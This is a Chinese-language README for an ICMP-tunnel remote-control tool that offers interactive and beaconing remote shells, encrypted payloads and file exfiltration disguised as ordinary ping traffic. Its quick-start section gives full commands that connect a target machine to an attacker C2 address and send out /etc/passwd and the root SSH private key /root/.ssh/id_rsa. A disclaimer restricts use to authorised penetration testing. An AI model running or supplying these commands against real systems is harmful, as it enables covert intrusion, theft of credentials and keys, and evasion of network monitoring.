 ICMP隧道远控工具。

---

## ✨ 功能说明
+ **多模式操作**:
    - **会话模式 (**`session`**)**: 提供一个实时的、交互式的远程Shell。
    - **信标模式 (**`beacon`**)**: 客户端以固定的时间间隔回连（心跳），接收并执行服务端下发的指令队列。
+ **数据包步态，加密/编码支持**:
    - 支持 `AES` (CBC模式), `XOR`, `Base64`, `Base32` 以及 `none` (原文) 多种载荷处理方式。
    - 支持包长度、发包频率控制，以及部分协议字段自定义。
+ **文件传输**:
    - **普通文件传输 (**`filetrans`**)**: 高效、可靠地传输大文件，支持自定义MTU。
    - **隐藏文件传输 (**`filetrans-hide`**)**:  将文件数据块嵌入到**仿真**的`ping`命令载荷中，模拟的8字节`struct timeval`时间戳和固定的数据序列。

---

## 🚀 快速编译
### 1. 编译
Go 环境 (版本 >= 1.20)。

```bash
# 编译服务端
go build -o icmpsh_ser ./cmd/server/

# 编译客户端
go build -o icmpsh_cli ./cmd/shell/
```

## <font style="color:rgb(13, 18, 57);">🚀</font><font style="color:rgb(13, 18, 57);"> 快速上手</font>
+ **<font style="color:rgb(13, 18, 57);">攻击机</font>**<font style="color:rgb(13, 18, 57);">: 控制主机 (C2)，IP地址为</font><font style="color:rgb(13, 18, 57);background-color:#D8DAD9;">111.111.111.11</font><font style="color:rgb(13, 18, 57);">，在此主机运行服务端。</font>
+ **<font style="color:rgb(13, 18, 57);">目标机</font>**<font style="color:rgb(13, 18, 57);">: 在此主机上运行客户端。</font>

<font style="color:rgb(13, 18, 57);"></font>

### <font style="color:rgb(13, 18, 57);">场景一：</font>
获得一个beacon模式的交互式shell，通讯流量以AES加密

```html
./icmpsh_ser --token <共享密钥> --crypto-mode <加密模式>
./icmpsh_ser --token "MySecretKey123" --crypto-mode aes --mode beacon
```

<font style="color:rgb(13, 18, 57);"> --mtu 调整每次发送的数据块大小， --interval 控制发包频率，--crypto-mode 控制传输加密类型。</font>

```html
./icmpsh_cli --ip <服务端IP> --token <共享密钥> --crypto-mode <加密模式>
./icmpsh_cli --ip 111.111.111.11 --token "MySecretKey123" --crypto-mode aes  --mode beacon
```

### <font style="color:rgb(13, 18, 57);">场景二：</font>
传输单个文件。



<font style="color:rgb(13, 18, 57);">服务端接收文件，并将其保存为 icmp_trans_file。</font>

```html
# 语法: ./icmpsh_ser --token <共享密钥> --filetrans
./icmpsh_ser --token "MySecretKey123" --filetrans
```

<font style="color:rgb(13, 18, 57);">目标机上运行客户端， --filetrans 指定要发送的文件。 --mtu 调整每次发送的数据块大小，用 --interval控制发包频率，但不支持 --crypto-mode 控制传输加密类型。</font>

```html
# 语法: ./icmpsh_cli --ip <服务端IP> --token <共享密钥> --filetrans <文件路径>
./icmpsh_cli --ip 111.111.111.11 --token "MySecretKey123" --filetrans /etc/passwd --mtu 256 --interval 1
```

### <font style="color:rgb(13, 18, 57);">场景三：</font>
隐匿传输单个文件，<font style="color:rgb(13, 18, 57);">使用一个看起来和普通ping命令几乎一样的流量来传输文件</font>

<font style="color:rgb(13, 18, 57);"></font>

<font style="color:rgb(13, 18, 57);">服务端只负责接收数据，它不需要关心客户端是用哪种方式发送的。</font>

```html
./icmpsh_ser --token "MySecretKey123" --filetrans

```

<font style="color:rgb(13, 18, 57);">使用  --fth ( --filetrans-hide ) 参数。注意，在此模式下， --mtu 是无效的，载荷大小被固定为56字节以模仿 ping 命令，也不支持 --crypto-mode 控制传输加密类型。但可以支持用  --interval 控制发包频率。</font>

```html
# 语法: ./icmpsh_cli --ip <服务端IP> --token <共享密钥> --fth <文件路径>
./icmpsh_cli --ip 111.111.111.11 --token "MySecretKey123" --fth /root/.ssh/id_rsa

```



## <font style="color:rgb(13, 18, 57);">🔧</font><font style="color:rgb(13, 18, 57);"> 参数详解</font>
### <font style="color:rgb(13, 18, 57);">服务端 (icmpsh_ser)</font>
<font style="color:rgb(255, 255, 255);">全屏</font><font style="color:rgb(255, 255, 255);">复制</font>

| **<font style="color:rgb(255, 255, 255);">参数</font>** | **<font style="color:rgb(255, 255, 255);">别名</font>** | **<font style="color:rgb(255, 255, 255);">类型</font>** | **<font style="color:rgb(255, 255, 255);">默认值</font>** | **<font style="color:rgb(255, 255, 255);">描述</font>** |
| --- | --- | --- | --- | --- |
| <font style="color:rgb(0, 0, 0);">--token</font> | <font style="color:rgb(0, 0, 0);">-t</font> | <font style="color:rgb(0, 0, 0);">string</font> | <font style="color:rgb(0, 0, 0);">"go-icmpshell"</font> | <font style="color:rgb(0, 0, 0);">用于客户端和服务端认证的共享密钥。</font> |
| <font style="color:rgb(0, 0, 0);">--filetrans</font> | <font style="color:rgb(0, 0, 0);">-ft</font> | <font style="color:rgb(0, 0, 0);">bool</font> | <font style="color:rgb(0, 0, 0);">false</font> | <font style="color:rgb(0, 0, 0);">启动文件接收模式。此模式下，其他模式和加密参数无效。</font> |
| <font style="color:rgb(0, 0, 0);">--mode</font> | <font style="color:rgb(0, 0, 0);">-m</font> | <font style="color:rgb(0, 0, 0);">string</font> | <font style="color:rgb(0, 0, 0);">"session"</font> | <font style="color:rgb(0, 0, 0);">运行模式，可选: session (实时会话) 或 beacon (信标)。</font> |
| <font style="color:rgb(0, 0, 0);">--crypto-mode</font> | <font style="color:rgb(0, 0, 0);">-cm</font> | <font style="color:rgb(0, 0, 0);">string</font> | <font style="color:rgb(0, 0, 0);">"none"</font> | <font style="color:rgb(0, 0, 0);">载荷加密/编码模式，可选: aes, xor, base64, base32, none。</font> |
| <font style="color:rgb(0, 0, 0);">--mtu</font> | | <font style="color:rgb(0, 0, 0);">int</font> | <font style="color:rgb(0, 0, 0);">576</font> | <font style="color:rgb(0, 0, 0);">(会话/信标模式) 定义单包最大载荷，最小为64。</font> |


### <font style="color:rgb(13, 18, 57);">客户端 (icmpsh_cli)</font>
<font style="color:rgb(255, 255, 255);">全屏</font><font style="color:rgb(255, 255, 255);">复制</font>

| **<font style="color:rgb(255, 255, 255);">参数</font>** | **<font style="color:rgb(255, 255, 255);">别名</font>** | **<font style="color:rgb(255, 255, 255);">类型</font>** | **<font style="color:rgb(255, 255, 255);">默认值</font>** | **<font style="color:rgb(255, 255, 255);">描述</font>** |
| --- | --- | --- | --- | --- |
| <font style="color:rgb(0, 0, 0);">--ip</font> | <font style="color:rgb(0, 0, 0);">-i</font> | <font style="color:rgb(0, 0, 0);">string</font> | **<font style="color:rgb(0, 0, 0);">(必需)</font>** | <font style="color:rgb(0, 0, 0);">要连接的服务端IP地址。</font> |
| <font style="color:rgb(0, 0, 0);">--token</font> | <font style="color:rgb(0, 0, 0);">-t</font> | <font style="color:rgb(0, 0, 0);">string</font> | <font style="color:rgb(0, 0, 0);">"go-icmpshell"</font> | <font style="color:rgb(0, 0, 0);">共享密钥，必须与服务端匹配。</font> |
| <font style="color:rgb(0, 0, 0);">--filetrans</font> | <font style="color:rgb(0, 0, 0);">-ft</font> | <font style="color:rgb(0, 0, 0);">string</font> | <font style="color:rgb(0, 0, 0);">""</font> | <font style="color:rgb(0, 0, 0);">普通文件传输模式，值为要发送的文件路径。与 --fth 及其他模式互斥。</font> |
| <font style="color:rgb(0, 0, 0);">--filetrans-hide</font> | <font style="color:rgb(0, 0, 0);">-fth</font> | <font style="color:rgb(0, 0, 0);">string</font> | <font style="color:rgb(0, 0, 0);">""</font> | <font style="color:rgb(0, 0, 0);">隐藏文件传输模式，值为要发送的文件路径。与 --ft 及其他模式互斥。</font> |
| <font style="color:rgb(0, 0, 0);">--mode</font> | <font style="color:rgb(0, 0, 0);">-m</font> | <font style="color:rgb(0, 0, 0);">string</font> | <font style="color:rgb(0, 0, 0);">"session"</font> | <font style="color:rgb(0, 0, 0);">运行模式，session 或 beacon。</font> |
| <font style="color:rgb(0, 0, 0);">--crypto-mode</font> | <font style="color:rgb(0, 0, 0);">-cm</font> | <font style="color:rgb(0, 0, 0);">string</font> | <font style="color:rgb(0, 0, 0);">"none"</font> | <font style="color:rgb(0, 0, 0);">加密/编码模式，必须与服务端匹配。</font> |
| <font style="color:rgb(0, 0, 0);">--mtu</font> | | <font style="color:rgb(0, 0, 0);">int</font> | <font style="color:rgb(0, 0, 0);">576</font> | <font style="color:rgb(0, 0, 0);">定义单包最大载荷，最小为64。</font> |
| <font style="color:rgb(0, 0, 0);">--interval</font> | | <font style="color:rgb(0, 0, 0);">int</font> | <font style="color:rgb(0, 0, 0);">1</font> | <font style="color:rgb(0, 0, 0);">发包的时间间隔，单位为秒，最小为1。</font> |
| <font style="color:rgb(0, 0, 0);">--icmpId</font> | | <font style="color:rgb(0, 0, 0);">uint</font> | <font style="color:rgb(0, 0, 0);">1000</font> | <font style="color:rgb(0, 0, 0);">通信所使用的ICMP ID。</font> |


### <font style="color:rgb(13, 18, 57);">客户端各模式下参数有效性</font>
<font style="color:rgb(255, 255, 255);">全屏</font><font style="color:rgb(255, 255, 255);">复制</font>

| **<font style="color:rgb(255, 255, 255);">操作模式 (通过flag触发)</font>** | **<font style="color:rgb(255, 255, 255);">--mtu   </font>****<font style="color:rgb(255, 255, 255);">调整数据块大小</font>** | **<font style="color:rgb(255, 255, 255);">--interval   </font>****<font style="color:rgb(255, 255, 255);">控制发包频率</font>** | **<font style="color:rgb(255, 255, 255);">--crypto-mode   </font>****<font style="color:rgb(255, 255, 255);">控制传输加密类型</font>** |
| --- | :---: | :---: | :---: |
| **<font style="color:rgb(0, 0, 0);">会话/信标模式</font>**<font style="color:rgb(0, 0, 0);">   </font><font style="color:rgb(0, 0, 0);">(--mode)</font> | <font style="color:rgb(0, 0, 0);">✅</font> | <font style="color:rgb(0, 0, 0);">✅</font><font style="color:rgb(0, 0, 0);"> (仅beacon)</font> | <font style="color:rgb(0, 0, 0);">✅</font> |
| **<font style="color:rgb(0, 0, 0);">普通文件传输</font>**<font style="color:rgb(0, 0, 0);">   </font><font style="color:rgb(0, 0, 0);">(--filetrans)</font> | <font style="color:rgb(0, 0, 0);">✅</font> | <font style="color:rgb(0, 0, 0);">✅</font> | <font style="color:rgb(0, 0, 0);">❌</font><font style="color:rgb(0, 0, 0);"> (仅支持原文)</font> |
| **<font style="color:rgb(0, 0, 0);">隐藏文件传输</font>**<font style="color:rgb(0, 0, 0);">   </font><font style="color:rgb(0, 0, 0);">(--fth)</font> | <font style="color:rgb(0, 0, 0);">❌</font><font style="color:rgb(0, 0, 0);"> (固定为56字节)</font> | <font style="color:rgb(0, 0, 0);">✅</font> | <font style="color:rgb(0, 0, 0);">❌</font><font style="color:rgb(0, 0, 0);"> (仅支持原文)</font> |


## <font style="color:rgb(13, 18, 57);">⚠️</font><font style="color:rgb(13, 18, 57);"> 免责声明</font>
<font style="color:rgb(13, 18, 57);">本工具仅供授权的渗透测试和安全研究使用。作者不对任何滥用本工具造成的后果负责。请遵守当地法律法规。</font>

